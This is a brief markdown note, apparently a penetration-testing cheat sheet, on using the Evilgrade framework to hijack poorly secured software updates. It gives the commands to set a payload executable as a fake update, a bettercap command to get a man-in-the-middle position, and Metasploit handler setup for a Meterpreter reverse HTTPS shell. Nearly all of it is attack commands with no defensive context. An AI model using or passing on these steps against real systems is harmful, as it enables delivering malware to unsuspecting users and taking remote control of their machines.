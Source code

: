# Evilgrade

Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates.

```
evilgrade > show modules (see programs that we can hijack their updates)
configure dap
show options
set agent <payload.exe>
set endsite www.speedbit.com
start
```

## MITM

For this to wok, you need to be MITM.

```
bettercap -iface eth0 -caplet /root/spoof.cap
```

## Listening for connections

```
msfconsole
use exploit/multi/handler
show options
set PAYLOAD windows/meterpreter/reverse_https
```
